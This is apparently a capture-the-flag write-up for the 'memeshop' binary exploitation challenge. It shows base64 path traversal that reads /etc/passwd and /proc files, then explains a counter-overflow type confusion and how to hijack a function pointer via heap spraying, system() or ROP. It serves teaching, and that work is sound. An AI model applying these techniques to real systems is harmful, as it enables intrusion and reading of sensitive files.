








# memeshop: Exploitation 400 Walkthrough

This challenge was a lot of fun.

## Introduction

Telnet in, and you're greeted with the following:

```
hi fellow memers
welcome to the meme shop
u ready 2 buy some dank meme?
 ---------------------------
I HAVE A DEGREE IN MEMETICS AND BEING USELESS
 ---------------------------
so... lets see what is on the menu
[p]rint receipt from confirmation number
[n]ic cage (RARE MEME)
[d]erp
d[o]ge (OLD MEME, ON SALE)
[f]ry (SHUT UP AND LET ME TAKE YOUR MONEY)
n[y]an cat
[l]ike a sir
[m]r skeletal (doot doot)
[t]humbs up
t[r]ollface.jpg
[c]heck out
[q]uit
```

You can select the different options and get a meme:

```
> d

─────────▄──────────────▄
────────▌▒█───────────▄▀▒▌
────────▌▒▒▀▄───────▄▀▒▒▒▐
───────▐▄▀▒▒▀▀▀▀▄▄▄▀▒▒▒▒▒▐
─────▄▄▀▒▒▒▒▒▒▒▒▒▒▒█▒▒▄█▒▐
───▄▀▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀██▀▒▌
──▐▒▒▒▄▄▄▒▒▒▒▒▒▒▒▒▒▒▒▒▀▄▒▒▌
──▌▒▒▐▄█▀▒▒▒▒▄▀█▄▒▒▒▒▒▒▒█▒▐
─▐▒▒▒▒▒▒▒▒▒▒▒▌██▀▒▒▒▒▒▒▒▒▀▄▌
─▌▒▀▄██▄▒▒▒▒▒▒▒▒▒▒▒░░░░▒▒▒▒▌
─▌▀▐▄█▄█▌▄▒▀▒▒▒▒▒▒░░░░░░▒▒▒▐
▐▒▀▐▀▐▀▒▒▄▄▒▄▒▒▒▒▒░░░░░░▒▒▒▒▌
▐▒▒▒▀▀▄▄▒▒▒▄▒▒▒▒▒▒░░░░░░▒▒▒▐
─▌▒▒▒▒▒▒▀▀▀▒▒▒▒▒▒▒▒░░░░▒▒▒▒▌
─▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▐
──▀▄▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▄▒▒▒▒▌
────▀▄▒▒▒▒▒▒▒▒▒▒▄▄▄▀▒▒▒▒▄▀
───▐▀▒▀▄▄▄▄▄▄▀▀▀▒▒▒▒▒▄▄▀
──▐▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▒▀▀
```

Additionally, you can select mr skeletal, and it asks you to enter something:

```
> m

░░░░░░░░░░░░▄▐
░░░░░░▄▄▄░░▄██▄
░░░░░▐▀█▀▌░░░░▀█▄
░░░░░▐█▄█▌░░░░░░▀█▄
░░░░░░▀▄▀░░░▄▄▄▄▄▀▀
░░░░▄▄▄██▀▀▀▀
░░░█▀▄▄▄█░▀▀
░░░▌░▄▄▄▐▌▀▀▀
▄░▐░░░▄▄░█░▀▀ U HAVE BEEN SPOOKED BY THE
▀█▌░░░▄░▀█▀░▀
░░░░░░░▄▄▐▌▄▄
░░░░░░░▀███▀█░▄
░░░░░░▐▌▀▄▀▄▀▐▄SPOOKY SKILENTON
░░░░░░▐▀░░░░░░▐▌
░░░░░░█░░░░░░░░█
░░░░░▐▌░░░░░░░░░█
░░░░░█░░░░░░░░░░▐▌SEND THIS TO 7 PPL OR SKELINTONS WILL EAT YOU
so... what do you say to mr skeletal?
```

When you're done, you can check out:

```
> c

ur receipt is at L3RtcC9tZW1lMjAxNTA5MjEtMTIxMC1kb2RyY3c=
you are going to get memed on so hard with no calcium
bye
```

Interesting! So, when we check out, our receipt is a base64 encoded filename. Base64 decoding it gives `/tmp/meme20150921-1210-dodrcw`. Let's try the "print receipt from confirmation number" options.

```
> p

ok, let me know your order number bro: L3RtcC9tZW1lMjAxNTA5MjEtMTIxMC1kb2RyY3c=
ok heres ur receipt or w/e
u got memed on 2 times, memerino
```

## Directory traversal

Can we base64 encode anything and put it in there, like `/etc/passwd` (`L2V0Yy9wYXNzd2Q=`)?

```
> p

ok, let me know your order number bro: L2V0Yy9wYXNzd2Q=
ok heres ur receipt or w/e
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
...
```

Why, yes we can! Let's try a wildcard, like `/tmp/*`.

```
> p

ok, let me know your order number bro: L3RtcC8q
flag{just kidding, you need a shell}
```

That's not the flag. Let's figure out what's actually going on. The /proc filesystem has interesting tidbits.

### /proc/self/cmdline

`/home/ctf/.rvm/rubies/ruby-2.2.1/bin/ruby /home/ctf/csaw/memeshop.rb`

### /proc/self/maps

|Address ranges|Module|
|:-------------|:-----|
|`00400000-00401000`, `00600000-00601000`, `00601000-00602000`|`/home/ctf/.rvm/rubies/ruby-2.2.1/bin/ruby`|
|`023f6000-02ae4000`|heap|
|`7f7edd124000-7f7edd126000`, `7f7edd126000-7f7edd325000`, `7f7edd325000-7f7edd326000`, `7f7edd326000-7f7edd327000`|`/home/ctf/csaw/plugin/mememachine.so`|

So, this is a ruby script running from `/home/ctf/csaw`. We can read both the script and the listed `mememachine.so` dynamic library: [script](memeshop/memeshop.rb), [dynamic library](memeshop/plugin/mememachine.so).

### memeshop.rb

The script does some interesting things:

```ruby
#!/usr/bin/env ruby
GC.disable
require 'tempfile'
require 'base64'
require 'colorize'
require_relative './plugin/mememachine.so'
```

So, right off the bat, it disables garbage collection, and requires tempfile, base64, colorize, and mememachine.so.

```ruby
include MemeMachine

$stdout.sync = true
@meme_count = 0

[snip]

puts "hi fellow memers"
puts "welcome to the meme shop"
puts "u ready 2 buy some dank meme?"
puts " --------------------------- "
puts IO.read Dir.glob("fortunes/*").sample
puts " --------------------------- "

puts "so... lets see what is on the menu"

quit = false
while not quit
	print_menu
	val = gets.chomp
	case val[0]
	when 'q'
		quit = true
		next
	when 'p'
		print_receipt
		next
	when 'o'
		domeme "./memes/doge.meme"
		next
	when 'n'
		domeme "./memes/cage.meme"
		next
	when 'd'
		domeme "./memes/derp.meme"
		next
	when 'f'
		domeme "./memes/fry.meme"
		next
	when 'y'
		domeme "./memes/nyan.meme"
		next
	when 'l'
		domeme "./memes/sir.meme"
		next
	when 'm'
		skeletal
		next
	when 't'
		domeme "./memes/thumbup.meme"
		next
	when 'r'
		domeme "./memes/troll.meme"
		next
	when 'c'
		checkouter
		quit = true
		next
	end
end
```

It then includes the `MemeMachine` module, and gets going. Notably, methods being called are `domeme`, `skeletal`, `print_receipt`, and `checkouter`.

```ruby
def domeme name
	@meme_count = @meme_count + 1
	meme = IO.read name
	puts meme
	addmeme
end
```

This method runs an IO.read on the meme filename, and runs the native method `addmeme`.

```ruby
def skeletal
	@meme_count = @meme_count + 1
	puts IO.read "./memes/skeleton.meme"
	puts "so... what do you say to mr skeletal?"
	str = gets
	puts addskeletal Base64.decode64 str
end
```

This method behaves similarly, but with a hardcoded meme path. Additionally, it reads a line from stdin, base64 decodes it, and runs `addskeletal` using the decoded string. This method is also native.

```ruby
def print_receipt
	print "ok, let me know your order number bro: "
	str = gets.chomp
	f = Base64.decode64 str
	if f.include? "flag" or f.include? "*"
		puts "flag{just kidding, you need a shell}"
	elsif File.exist? f
		puts "ok heres ur receipt or w/e"
		puts IO.read(f)
	else
		puts "sry br0, i have no records of that"
	end
	puts ""
end
```

This method prints the receipt. Of note, we can read any file on the disk, except for files containing `flag` and `*`. So, we need a shell.

```ruby
def checkouter
	str = "u got memed on #{@meme_count} times, memerino"
	file = Tempfile.new "meme"
	file.write str
	ObjectSpace.undefine_finalizer file
	puts "ur receipt is at #{Base64.encode64 file.path}"
	puts checkout @meme_count
end
```

Finally, this method writes the meme count out to a tempfile. Interestingly, it also undefines the finalizer for that tempfile. Looking at the [tempfile docs](http://ruby-doc.org/stdlib-2.1.0/libdoc/tempfile/rdoc/Tempfile.html#method-i-close):

>If you don’t explicitly unlink the temporary file, the removal will be delayed until the object is finalized.

So, looks like this is to prevent the file from being deleted when the ruby process exits.

## mememachine.so

Let's check out the native library in IDA.



We've got a few interesting functions. `Init_mememachine`, called by ruby when the library loads, defines the `MemeMachine` module and the three methods on that module seen above:



### method_addmeme

So, let's check out each of those functions, starting with `method_addmeme`.



This function calls `malloc`, and sets up the second quadword of the malloced block to have a function pointer to `gooder`. It uses the first entry in a global `counter` array to index into a global `memerz` array, and uses the global `types_tracker` to index into a global `types` array.

Essentially, we can boil this down to the following logic:

```c
int32_t types_tracker = 0;
uint8_t counter[56] = {0}; // padding
void *memerz[256];
uint64_t types[256];

VALUE method_addmeme(VALUE self) {
    void *memer = malloc(0x18);
    ((uint64_t *)memer)[1] = gooder;
    ((uint32_t *)memer)[4] = 0;
    memerz[counter[0]++] = memer;
    types[types_tracker++] = 0;
    return rb_str_new_static("meme successfully added", 23);
}
```

The layout of the malloc'ed block now looks like the following, with the corresponding `types` entry set to 0:

```
[64 bits] [64 bits] [32 bits] [32 bits]
undefined gooder    zero      undefined
```

What's in `gooder`?



If the function argument is in `eax`, this function just returns `eax != 0`, using the setnz instruction.

### method_addskeletal

Ok, let's check out `method_addskeletal` next.



The first bit of the method appears to conditionally assign `v2` based on `a2`. We deduced that this was the [`RSTRING_PTR` macro](https://github.com/ruby/ruby/blob/ruby_2_2/include/ruby/ruby.h#L865), since RSTRING_NOEMBED works out to 0x2000.

Next, a block of size 0x118 is allocated, and the first 16 quadwords offset from the string pointer are copied over via an unrolled `memcpy`. The 34th quadword is assigned to `gooder`. `memcmp`, also unrolled here, is called afterwards against the string "thanks mr skeletal", but the two branches resulting from the memcmp are essentially the same, except for the "meme successfully added" / "im going to steal all ur calcuims" string and the assignment of `badder` instead of `gooder` (which, incidentally, just returns if its argument is equal to zero).

The same counter and types_tracker trickery is executed here too, for a control flow that looks like this:

```c
int32_t types_tracker = 0;
uint8_t counter[56] = {0}; // padding
void *memerz[256];
uint64_t types[256];

VALUE method_addskeletal(VALUE self, VALUE argument) {
    const char *str = RSTRING_PTR(argument);
    void *memer = malloc(0x118);
    memcpy(memer, str, 15 * sizeof(uint64_t));
    ((uint64_t *)memer)[33] = gooder;
    ((uint32_t *)memer)[68] = 0;
    if (memcmp(memer, "thanks mr skeletal", 19) == 0) {
        memerz[counter[0]++] = memer;
        types[types_tracker++] = 1;
        return rb_str_new_static("meme successfully added");
    } else {
        ((uint64_t *)memer)[33] = badder;
        memerz[counter[0]++] = memer;
        types[types_tracker++] = 1;
        return rb_str_new_static("im going to steal all ur calcuims");
    }
}
```

The layout of this malloc'ed block looks like the following, with the corresponding `types` entry set to 1:

```
[64 bits * 15] [64 bits * 18] [64 bits] [32 bits] [32 bits]
copied string  undefined      gooder    zero      undefined
```

### method_checkout

Finally, what does checkout do?



There's a call to `rb_fix2int` on the second argument (meme_count). If the meme count is <= 0, it jumps to the "successfully checked out" branch. Otherwise, it enters a loop from 0 to meme_count - 1, iterating over `memerz` and `types` in parallel.

If type is 0, it reads a function pointer at `rax + 0x08` using `rax + 0x10` as a 32-bit argument. Otherwise, it reads a function pointer at `rax + 0x108` using `rax + 0x110` as a 32-bit argument. The rest is fairly irrelevant, because this is the core of the vulnerability in memeshop.

```c
int32_t types_tracker = 0;
uint8_t counter[56] = {0}; // padding
void *memerz[256];
uint64_t types[256];

typedef bool (*meme_validate_t)(int);

typedef struct meme {
    uint64_t pad0[1];
    meme_validate_t function;
    int arg, pad;
} meme_t;

typedef struct skeletal {
    uint64_t pad0[15];
    uint64_t pad1[18];
    meme_validate_t function;
    int arg, pad;
} skeletal_t;

VALUE method_checkout(VALUE self, VALUE meme_count) {
    int count = rb_fix2int(meme_count);

    for (int i = 0; i < count; i++) {
        void *memer = memerz[i];
        uint64_t type = types[i];
        if (type == 0) {
            // This is a normal meme
            if (!((meme_t *)memer)->function(((meme_t *)memer)->arg)) {
                goto invalid;
            }
        } else {
            // This is a skeletal
            if (!((skeletal_t *)memer)->function(((skeletal_t *)memer)->arg)) {
                goto invalid;
            }
        }
    }
valid:
    return rb_str_new_static("successfully checked out");
invalid:
    return rb_str_new_static("you are going to get memed on so hard with no calcium");
}
```

## Type confusion in mememachine.so

Notice that `memer` is conditionally casted based on the value in `types`. If we can overwrite the type of this meme with 0 (signaling a normal meme) but really insert a skeletal (which is a bigger malloc'ed block), we can control the function pointer and its argument. So, how do we insert a skeleton with type 0?



Notice that `counter` is being stored as a **byte**, not an int. We can overflow this byte, and make the pointer into `memerz` wrap around. Meanwhile, `types_tracker` is being stored as an int, and will happily point beyond the `types` array. How are they laid out in memory?



Good. `types` is at the end of bss, so we won't overwrite anything important if it goes outside the array. We can fill the types array up with zeroes by adding 256 memes, after which skeletals will overwrite pointers to memes and not their types.

## Building the payload

Remember: this is how a meme looks in memory:

```
[64 bits] [64 bits]        [32 bits]    [32 bits]
undefined function pointer function arg undefined
```

### My approach: using system() with heap spray

Let's fill the function pointer with a pointer to `system()`. Since we can download any file, we can grab their version of libc and figure out with `objdump` that `system()` lives at address `0x00046640`. Since we can read `/proc/self/maps`, we can also figure out where libc is mapped, defeating ASLR. Since we only have 32 bits for the function argument, we can put it into the heap, which has addresses that fit in 32 bits. By reading `.bash_profile` for the CTF user, we can figure out that the flag is in `/home/ctf/flag`. We can concoct a decent argument to `system` by padding `cat /home/ctf/flag` with spaces, which will ultimately be ignored.

To fill `types` with zeroes, we request 256 of any meme (for example, doge). To fill `memerz` with skeletals, we request 256 more skeletals.

To figure out where to point into the heap, we can look at the process's maps after spraying doge, estimate how much the heap will expand, and evenly distribute arguments to `system` over the estimated new part of the heap. Since we're making reasonably large allocations and limiting our search space to the *new* part of the heap, there is a high chance that one of our `system` calls will end up in the middle of one of our sleds of spaces.

```
>>> Initial maps
Heap size:  000000000068b000
Heap range: 0000000000d6b000 => 00000000013f6000
libc range: 00007f3e777ce000 => 00007f3e77989000
*** Spraying doge
................................
................................
................................
................................
................................
................................
................................
................................
>>> Doge maps
Heap size:  0000000003438000
Heap range: 0000000000d6b000 => 00000000041a3000
libc range: 00007f3e777ce000 => 00007f3e77989000
>>> Scan maps
Expansion ratio (estimated): 1.5000
Heap size:  0000000001a1c000
Heap range: 00000000041a3000 => 0000000005bbf000
libc range: 00007f3e777ce000 => 00007f3e77989000
*** Spraying skeletals
................................
................................
................................
................................
................................
................................
................................
................................
>>> Final maps
Heap size:  00000000090a2000
Heap range: 0000000000d6b000 => 0000000009e0d000
libc range: 00007f3e777ce000 => 00007f3e77989000
*** Checking out
ur receipt is at L3RtcC9tZW1lMjAxNTA5MjEtMTI1NS0xeTZuaHhy
flag{dwn: please tell us your meme. I'm not going to stop asking}
```

[Exploit link](memeshop/exploit/memeheap.rb)

### edwood777's approach: return oriented programming

[Link](http://bitsforeveryone.blogspot.com/2015/09/writeup-csaw-2015-exploitation-400.html)

edwood777's team found a couple handy instructions in libc:

```asm
mov rdi, rax
call [rax+20]
ret
```

Rather than overwriting offset 0x8 in the meme with system(), you can overwrite 0x20, and use this ROP gadget as a trampoline to jump there with a controllable rax. Nice.

    <crowell> the ruby binary doesn't have any good gadgets in it

### eboda's approach: `ed` string in ruby binary

    <eboda> numinit: "ed" string in binary is the easiest i would say :P

The ruby binary is mapped into 32-bit address space, and apparently the string `ed` is in there. Just point to it and profit. This is a cool approach: since many UNIX tools have only 2-character filenames, you're likely to find them in many binaries.

### wait_what and G33KatWork's approach: jump to ruby's main()

    <wait_what> numinit: like I said earlier, you can do it without any leaks by jumping into the ruby interpreter's main to get a repl
    <G33KatWork> we just jumped into main() of the ruby executable in memeshop

`ruby` is mapped into space that fits into 32 bits, and this works without even setting up arguments correctly.
